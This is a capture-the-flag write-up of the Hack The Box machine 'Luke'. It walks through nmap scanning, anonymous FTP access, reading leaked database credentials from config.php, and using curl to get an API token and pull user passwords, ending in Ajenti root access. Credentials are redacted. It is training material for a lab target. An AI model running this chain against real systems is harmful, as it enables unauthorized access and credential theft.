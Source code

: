 # Luke 

Machine Level: Medium <br />
OS: FreeBSD

## Scanning 
I ran an aggressive NMAP scan to get a peak into the services on the machine. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ nmap -A [TARGET IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-19 16:19 CST
Nmap scan report for [TARGET IP]
Host is up (0.079s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14  2019 webapp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to [LOCAL IP]
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp   open  ssh?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp   open  http    Apache httpd 2.4.38 ((FreeBSD) PHP/7.3.3)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.38 (FreeBSD) PHP/7.3.3
|_http-title: Luke
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
8000/tcp open  http    Ajenti http control panel
|_http-title: Ajenti

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.75 seconds
```
## Enumeration 
I went after the FTP service and was able to log in anonymously. I found a txt file called ```for_Cihiro.txt```. 
```
ftp> get for_Chihiro.txt
local: for_Chihiro.txt remote: for_Chihiro.txt
229 Entering Extended Passive Mode (|||38665|)
150 Opening BINARY mode data connection for for_Chihiro.txt (306 bytes).
100% |**********************************************************************|   306        1.11 MiB/s    00:00 ETA
226 Transfer complete.
306 bytes received in 00:00 (4.10 KiB/s)
```
The file contained information from anothe user named Derry. 
```
Dear Chihiro !!

As you told me that you wanted to learn Web Development and Frontend, I can give you a little push by showing the sources of 
the actual website I've created .
Normally you should know where to look but hurry up because I will delete them soon because of our security policies ! 

Derry  
```
I wanted to take a closer look at the service running on port 3000. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ curl http://[TARGET IP]:3000/
{"success":false,"message":"Auth token is not supplied"}
```
I looks like I need to supply a token in order to access. I was able to find something on port 80 within a ```config.php``` file after running ```gobuster```. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ curl http://[TARGET IP]/config.php
$dbHost = 'localhost';
$dbUsername = 'root';
$dbPassword  = '[REDACTED]';
$db = "login";

$conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error);
```
I was able to send the credentials to port 3000 in the header and I was able to obtain a good token to use. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ curl --header "Content-Type: application/json" --request POST --data '{"password":"[REDACTED]", "username":"admin"}' http://[TARGET IP]:3000/Login

{"success":true,"message":"Authentication successful!","token":"[REDACTED]"}
```
## Initial Access
I sent the token back to the server and logged in as a user to the database. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ curl -X GET -H 'Authorization: Bearer [REDACTED]' http://[TARGET IP]:3000
{"message":"Welcome admin ! "}
```
I was able to grab the list of users from the database with the token as well. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ curl -X GET -H 'Authorization: Bearer [REDACTED]' http://[TARGET IP]:3000/users
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```
I saw the various users and I wanted to see if I could get their passwords as well. I know that Derry seems to be and admin or management user from the note in the FTP server. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ curl -X GET -H 'Authorization: Bearer [REDACTED]' http://[TARGET IP]:3000/users/Derry
{"name":"Derry","password":"[REDACTED]"}
```
I was able to log into the http server running on port 80 at the ```/management``` subdirectory using Derry's credentials. I found a ```config.json``` file with what appeared to be the root user password. 
```
{
    "users": {
        "root": {
            "configs": {
                "ajenti.plugins.notepad.notepad.Notepad": "{\"bookmarks\": [], \"root\": \"/\"}", 
                "ajenti.plugins.terminal.main.Terminals": "{\"shell\": \"sh -c $SHELL || sh\"}", 
                "ajenti.plugins.elements.ipmap.ElementsIPMapper": "{\"users\": {}}", 
                "ajenti.plugins.munin.client.MuninClient": "{\"username\": \"username\", \"prefix\": \"http://localhost:8080/munin\", \"password\": \"123\"}", 
                "ajenti.plugins.dashboard.dash.Dash": "{\"widgets\": [{\"index\": 0, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.sensors.memory.MemoryWidget\"}, {\"index\": 1, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.sensors.memory.SwapWidget\"}, {\"index\": 2, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.dashboard.welcome.WelcomeWidget\"}, {\"index\": 0, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.sensors.uptime.UptimeWidget\"}, {\"index\": 1, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.power.power.PowerWidget\"}, {\"index\": 2, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.sensors.cpu.CPUWidget\"}]}", 
                "ajenti.plugins.elements.shaper.main.Shaper": "{\"rules\": []}", 
                "ajenti.plugins.ajenti_org.main.AjentiOrgReporter": "{\"key\": null}", 
                "ajenti.plugins.logs.main.Logs": "{\"root\": \"/var/log\"}", 
                "ajenti.plugins.mysql.api.MySQLDB": "{\"password\": \"\", \"user\": \"root\", \"hostname\": \"localhost\"}", 
                "ajenti.plugins.fm.fm.FileManager": "{\"root\": \"/\"}", 
                "ajenti.plugins.tasks.manager.TaskManager": "{\"task_definitions\": []}", 
                "ajenti.users.UserManager": "{\"sync-provider\": \"\"}", 
                "ajenti.usersync.adsync.ActiveDirectorySyncProvider": "{\"domain\": \"DOMAIN\", \"password\": \"\", \"user\": \"Administrator\", \"base\": \"cn=Users,dc=DOMAIN\", \"address\": \"localhost\"}", 
                "ajenti.plugins.elements.usermgr.ElementsUserManager": "{\"groups\": []}", 
                "ajenti.plugins.elements.projects.main.ElementsProjectManager": "{\"projects\": \"KGxwMQou\\n\"}"
            }, 
            "password": "[REDACTED]", 
            "permissions": []
        }
```
I logged into the service running on port 8000 and found the user and root flags within ```/home/derry/user.txt``` and ```/root/root.txt```. There was no need to elevate privileges to do so. 